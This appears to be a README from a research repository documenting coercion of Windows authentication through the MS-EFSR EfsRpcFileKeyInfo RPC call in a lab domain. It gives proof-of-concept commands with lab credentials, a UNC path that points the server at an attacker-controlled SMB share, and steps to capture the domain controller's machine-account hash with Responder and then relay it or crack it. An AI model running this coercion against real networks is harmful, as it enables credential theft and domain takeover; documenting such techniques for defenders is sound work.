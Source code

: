 # MS-EFSR - Remote call to EfsRpcFileKeyInfo (opnum 12)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **Function name**: [`EfsRpcFileKeyInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c)

 - **Function operation number**: `12`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\lsarpc` and bind to (uuid `c681d488-d850-11d0-8c52-00c04fd90f7e`, version `1.0`) in order to perform calls to RPC functions of the `MS-EFSR` protocol.

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Password123!" 192.168.2.51 192.168.2.1
```

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcFileKeyInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcFileKeyInfo('\\\\192.168.2.51\\share\\\x00', 0)
```


We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD EfsRpcFileKeyInfo(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [in] DWORD InfoClass,
    [out] EFS_RPC_BLOB** KeyInfo
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **InfoClass**: One of the values in the following table. With the exception of UPDATE_KEY_USED (0x00000100), a server SHOULD support all of these values. A server MAY choose to support UPDATE_KEY_USED.<45>

| Name | Value | Description |
|---|---|---|
| `BASIC_KEY_INFO` | `0x00000001` |  Request information about the keys used to encrypt the object's contents. On success, the server will return the information in an `EFS_KEY_INFO` (2.2.14) structure in the `KeyInfo` parameter. | 
| `CHECK_COMPATIBILITY_INFO` | `0x00000002` | Requests the EfsVersion for the encrypted file. On success, the server will return the information in an `EFS_COMPATIBILITY_INFO` structure in the KeyInfo parameter. | 
| `UPDATE_KEY_USED` | `0x00000100` | Update the user certificates used to give a specific user access to an object. The server will populate the `KeyInfo` parameter with a zero-terminated, wide character Unicode string that contains a newline-separated list of names of objects successfully updated. | 
| `CHECK_DECRYPTION_STATUS` | `0x00000200` | Request a hint from the server as to whether the given object could be successfully decrypted without further user intervention or higher-level events. The server will return this information in an `EFS_DECRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |
| `CHECK_ENCRYPTION_STATUS` | `0x00000400` | Request a hint from the server as to whether the given object could be successfully encrypted without further user intervention or higher-level events. The server will return this information in an `EFS_ENCRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |


 - **KeyInfo**: Returned by the server, as previously specified.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcFileKeyInfo`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c
